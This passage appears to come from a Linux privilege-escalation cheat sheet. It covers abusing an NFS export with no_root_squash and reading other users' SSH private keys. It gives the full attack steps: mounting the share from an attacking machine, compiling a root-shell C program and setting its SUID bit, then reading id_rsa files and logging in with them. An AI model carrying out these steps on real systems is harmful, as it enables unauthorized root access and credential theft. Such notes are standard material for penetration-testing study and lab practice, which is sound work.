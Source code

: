 ### NFS (Network File System)
If `no_root_squash` is set for an exported share, files created by root on the client are preserved as root on the server.

- Check `/etc/exports`:
```bash
cat /etc/exports
```
- Find exports (from attacking machine):
```bash
showmount -e <target-IP>
```
- Mount the export (from attacking machine):
```bash
mkdir /tmp/backupsonattackermachine
mount -o rw <target-IP>:/backups /tmp/backupsonattackermachine
```
- Create exploit file to set SUID bits:
```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```
- Compile into the */tmp/backupsonattackermachine* and set SUID:
```bash
gcc nfs.c -o nfs -w
chmod +s nfs
```
- Execute on target:
```bash
./nfs
```

---

### Readable Folders for SSH Access
Enumerate readable folders to find potential SSH private keys.

- Find readable folders:
```bash
find / -readable 2>/dev/null | cut -d "/" -f 2 | sort -u
```
- Navigate to user folders with readable permissions:
```bash
cd /home
ls -la
```
- Check `.ssh` directory:
```bash
ls -la .ssh
cat id_rsa
```
- Copy the key and use it to log in:
```bash
chmod 600 key_file
ssh user@<IP_ADDRESS> -i key_file
```

---
